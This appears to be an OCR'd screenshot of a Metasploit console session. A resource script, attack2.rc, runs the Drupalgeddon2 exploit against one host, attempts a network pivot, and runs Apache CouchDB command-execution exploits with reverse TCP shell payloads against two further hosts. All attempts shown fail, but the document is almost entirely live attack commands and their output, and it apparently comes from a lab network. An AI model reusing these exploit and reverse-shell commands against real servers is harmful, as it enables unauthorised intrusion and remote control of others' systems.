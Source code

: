 ```console
       ..........................
       ffffffffffffffffffffffffff
       ffffffff..................
       ffffffffffffffffffffffffff
       ffffffff..................
       ffffffff..................
       ffffffff..................


Code: 00 00 00 00 M3 T4 SP L0 1T FR 4M 3W OR K! V3 R5 I0 N5 00 00 00 00
Aiee, Killing Interrupt handler
Kernel panic: Attempted to kill the idle task!
In swapper task - not syncing


       =[ metasploit v5.0.95-dev                          ]
+ -- --=[ 2038 exploits - 1103 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Writing a custom module? After editing your module, why not try the reload command

[*] Processing attack2.rc for ERB directives.
resource (attack2.rc)> use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (attack2.rc)> set RHOST 192.168.10.101
RHOST => 192.168.10.101
resource (attack2.rc)> set RPORT 8080
RPORT => 8080
resource (attack2.rc)> exploit -z
[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Exploit completed, but no session was created.
resource (attack2.rc)> route add 192.168.20.0/24 1
[-] Not a session: 1
resource (attack2.rc)> use exploit/linux/http/apache_couchdb_cmd_exec
[*] Using configured payload linux/x64/shell_reverse_tcp
resource (attack2.rc)> set LPORT 4445
LPORT => 4445
resource (attack2.rc)> set LHOST 10.114.209.151
LHOST => 10.114.209.151
resource (attack2.rc)> set RHOST 192.168.20.100
RHOST => 192.168.20.100
resource (attack2.rc)> exploit -z
[*] Started reverse TCP handler on 10.114.209.151:4445
[-] Exploit aborted due to failure: unknown: Something went horribly wrong and we couldn't continue to exploit.
[*] Exploit completed, but no session was created.
resource (attack2.rc)> set LPORT 4446
LPORT => 4446
resource (attack2.rc)> set RHOST 192.168.20.101
RHOST => 192.168.20.101
resource (attack2.rc)> exploit -z
[*] Started reverse TCP handler on 10.114.209.151:4446
[-] Exploit aborted due to failure: unknown: Something went horribly wrong and we couldn't continue to exploit.
[*] Exploit completed, but no session was created.
msf5 exploit(linux/http/apache_couchdb_cmd_exec) >
```
